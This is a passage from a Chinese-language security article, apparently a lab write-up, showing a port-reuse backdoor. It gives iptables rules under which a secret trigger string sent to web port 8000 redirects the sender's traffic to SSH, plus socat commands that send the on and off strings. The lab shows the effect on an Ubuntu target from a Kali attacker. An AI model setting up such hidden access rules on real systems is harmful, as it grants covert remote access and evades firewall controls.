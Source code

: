 
```
# 新建端口复用链
iptables -t nat -N LETMEIN
# 端口复用规则
iptables -t nat -A LETMEIN -p tcp -j REDIRECT --to-port 22
# 开启端口复用开关
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# 关闭端口复用开关
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# 开启端口复用
iptables -t nat -A PREROUTING -p tcp --dport 8000 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
```

**(2) 使用 socat 连接**

使用 socat 发送约定口令至目标主机打开端口复用开关

```
echo threathuntercoming | socat ‐ tcp:192.168.245.135:8000
```

使用完毕后，发送约定关闭口令至目标主机目标端口关闭端口复用

```
echo threathunterleaving | socat ‐ tcp:192.168.245.135:8000
```

**4. 实验**

*   Target：Ubuntu 16.04 x64
    
*   IP：192.168.245.135
    
*   开启 8000 端口的 web 服务
    
*   开启 22 端口
    

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9ZzfluJuFOwazw8MppYN1xA5KyglhJHc6ib50X9UlpicGHm0ibWHgWntODJxAmE8zEiaMIBSbzYUr4Sw/640?wx_fmt=png)

配置端口复用：  

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9ZzfluJuFOwazw8MppYN1x7UfibwT1fbncvI1EtM3NBR0ufykxLqrzGsmlNASBmjHibOkshxkWfGEA/640?wx_fmt=png)

*   Attacker：Kali 2020 x64
    
*   IP：192.168.245.130
    

使用 socat 连接：

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9ZzfluJuFOwazw8MppYN1xYZElk9MV2JZRhrib4P3jwzAia1bgVpUJQQJO83vR95vcIIr4Q8q4iaaicg/640?wx_fmt=png)

此时 ssh 可以通过 8000 访问，但是 8000 端口的正常 web 业务受到影响：  

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9ZzfluJuFOwazw8MppYN1xNKa5K9SXHz2XqbutDScGmopicUTZuAGxribpF6p8CJJzGSmgRKVNQrug/640?wx_fmt=png)
